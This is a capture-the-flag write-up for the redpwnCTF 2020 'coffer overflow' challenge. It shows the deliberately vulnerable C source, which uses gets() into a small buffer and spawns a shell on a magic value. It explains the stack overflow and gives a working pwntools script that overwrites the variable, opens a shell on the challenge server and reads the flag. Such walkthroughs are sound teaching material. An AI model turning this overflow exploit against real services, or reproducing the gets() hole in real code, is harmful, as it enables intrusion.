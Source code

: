 >nc 2020.redpwnc.tf 31255
### Solution
We get an executable and it's source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

We can see that there's a buffer overflow vulnerability on `gets(name)`, but in order to get the a shell we need to overwrite the value from `code` to be `0xcafebabe`.

We can fill the `name` buffer with `AAAABBBBCCCCDDDDEEEEFFFF` and everything we add from here it will get into `code`. Just adding `/xca/xfe/xba/xbe` won't work, we have to provide the bytes as little endian.

We'll get shell using the `pwn` module and sending the payload as it follows:
```python
import pwn

con = pwn.remote('2020.redpwnc.tf', 31255)

con.recv()
con.recv()

exploit = b'AAAABBBBCCCCDDDDEEEEFFFF' + pwn.p32(0xcafebabe)
con.sendline(exploit)

con.sendline('ls')
ls = con.recv()
print(ls)

if b'flag.txt' in ls:
    con.sendline('cat flag.txt')
    print(con.recv().decode('utf-8'))

con.close()
```

`pwn.p32(0xcafebabex)` will make our payload to work for little endian.

![image](https://user-images.githubusercontent.com/38787278/85772996-12300a80-b726-11ea-9244-667d28056f17.png)

Flag: flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
